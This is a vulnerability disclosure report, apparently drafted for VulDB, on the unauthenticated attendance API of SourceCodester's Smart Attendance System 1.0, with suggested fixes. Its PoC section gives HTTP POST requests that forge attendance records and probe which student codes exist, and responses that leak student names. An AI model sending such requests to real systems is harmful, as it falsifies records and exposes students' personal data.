

# SourceCodester Smart Attendance System with QR Code Scanner 1.0 /api/attendance_handler.php student_code= Missing Authorization

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18702/smart-attendance-system-qr-code-scanner-phpmysql.html
- https://www.sourcecodester.com/download-code?nid=18702

## Overview

- Smart Attendance System with QR Code Scanner, version 1.0 (current public download, 2026-11), exposes its QR-scan backend `/api/attendance_handler.php` without any authentication. A single unauthenticated POST with a student's QR code value (`student_code`) writes an IN/OUT attendance record into the database exactly as if a genuine QR scan had occurred, and the same endpoint discloses sensitive information along the way: it reveals whether a student code is registered, leaks the student's real name and course/section in its error messages, and has only a 1-minute cooldown as anti-abuse. Anyone on the network can forge attendance for themselves or classmates, defeating the product's entire purpose.

## Details

- Vulnerable file: `/api/attendance_handler.php`
- Affected version: 1.0 (current public download, 2026-11)
- The API pulls in only the DB connection — no `includes/auth.php`, no session check, no scan-token/signature on the request:

```php
// api/attendance_handler.php:3-9
header('Content-Type: application/json');
require '../includes/db.php';
...
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $code = $_POST['student_code'] ?? '';
```

- On a match it writes the attendance row directly:

```php
// api/attendance_handler.php:109-111
$insert = $pdo->prepare("INSERT INTO attendance_logs (student_code, type, status, subject) VALUES (?, ?, ?, ?)");
if ($insert->execute([$code, $intent, $status, $subject_name])) {
```

- Error paths disclose data: unknown codes distinguish "Student not registered!" (existence oracle), known codes echo the student's real name on every error, and a missing class window reveals the student's course and section verbatim:

```php
// api/attendance_handler.php:47-49
if (!$all_schedules) {
    echo json_encode(['status' => 'error', 'message' => "No class scheduled today for $course $section.", 'student' => $studentName]);
```

- The only abuse control is a 1-minute per-code cooldown:

```php
// api/attendance_handler.php:29-31
$spamCheck = $pdo->prepare("SELECT * FROM attendance_logs WHERE student_code = ? AND scan_time > (NOW() - INTERVAL 1 MINUTE)");
```

## Description

- The QR code value is the only credential the system knows, and this API accepts it from anyone. An attacker who sees, photographs, guesses, or brute-forces a classmate's code (format `YYYY-NNNN`, e.g. `2024-0001`) can mark them present/late in any scheduled class remotely — no camera, no QR, no session. The information disclosure makes enumeration practical: the API confirms code validity and hands back the student's real name, course, and section. Forged records then propagate to the admin dashboard and the public `/live_feed.php` screen. In a real deployment (grades, scholarships, immigration/visa compliance tied to attendance), this is direct integrity compromise.

## PoC

- Existence oracle (unknown code):

```
POST /api/attendance_handler.php HTTP/1.1
Host: 127.0.0.1:8142
Content-Type: application/x-www-form-urlencoded

student_code=HACK-9999
```

- Response: `{"status":"error","message":"Student not registered!"}`

- Forged IN record (no cookie sent; a Monday class `PentestLab 17:30-19:00` existed in the test schedule):

```
POST /api/attendance_handler.php

student_code=2024-0001
```

- Response (2026-11-09 17:39 +08) — the INSERT succeeded:

```json
{"status":"success","message":"In: PentestLab (PRESENT)","student":"Jayson","time":"05:39 PM"}
```

- Three seconds later the only obstacle appears — the cooldown, which itself re-confirms the code is real and leaks the name:

```json
{"status":"error","message":"Please wait a moment...","student":"Jayson"}
```

## Payload

```
student_code=2024-0001
```

## Screenshot: forged record rendered in the authenticated admin dashboard

The record inserted by the anonymous POST above appears on the admin dashboard ("Jayson 2024-0001 PentestLab BSIT 1-A 05:52 PM IN Present") as an ordinary, trusted attendance entry. Test schedule/log rows were removed from the local database after capture.



Full evidence log: `poc/F02-unauth-attendance-api.txt`.

## Suggested repair

1. Require an authenticated staff session (or a kiosk token bound to the scanning device) before the API performs any write.
2. Make the QR value unforgeable: encode a random per-student secret (or rotating TOTP payload) in the QR instead of the guessable `student_code`, and rotate it when compromised.
3. Remove sensitive detail from error responses — return generic errors without student names or course/section; do not confirm code existence to unauthenticated callers.
4. Add server-side rate limiting and alerting on scan origin (IP/device) rather than a per-code cooldown that an attacker simply waits out.

## Dedup note

- NVD: the product's single CVE (CVE-2026-95957) covers an XSS in `student_signup.php`; nothing touches `attendance_handler.php` (checked 2026-11-09).
- VulDB: site searches surface only VDB-408556 for this product; attendance-spoofing entries exist only for unrelated products (e.g. "Attendance Tracking Management System", Projectworlds) — no same-file/parameter/type collision. New entry.
